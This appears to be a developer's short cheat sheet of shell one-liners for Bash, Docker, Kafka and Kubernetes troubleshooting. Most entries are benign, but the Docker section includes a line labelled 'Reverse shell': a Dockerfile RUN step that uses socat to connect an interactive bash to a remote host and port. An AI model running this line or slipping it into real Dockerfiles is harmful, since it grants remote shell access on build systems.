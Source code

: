 Todo: Actually find the various places I've stored them and put them in here instead
## Bash
#### Open file handle counts
```
sudo lsof | awk '{ print $2, $9 }' | sort | uniq -c | sort -n | tail -20
```

## Docker
#### Reverse shell
```
RUN socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:<host>:<port>
```
#### Join container network namespace for troubleshooting
```
docker run -it --net container:<has> nicolaka/netshoot
```

## Kafka
#### Print the last 2 messages from a topic
```
:; kafkacat -C -b <broker> -t <topic> -p 0 -o -2 -e
```

## Kubernetes
#### Replace configmaps which aren't actual config maps
```
:; kubectl create configmap <MAP_NAME> --from-file=<DIR_OF_CONFIGS> -o yaml --dry-run | kubectl replace -f -
```


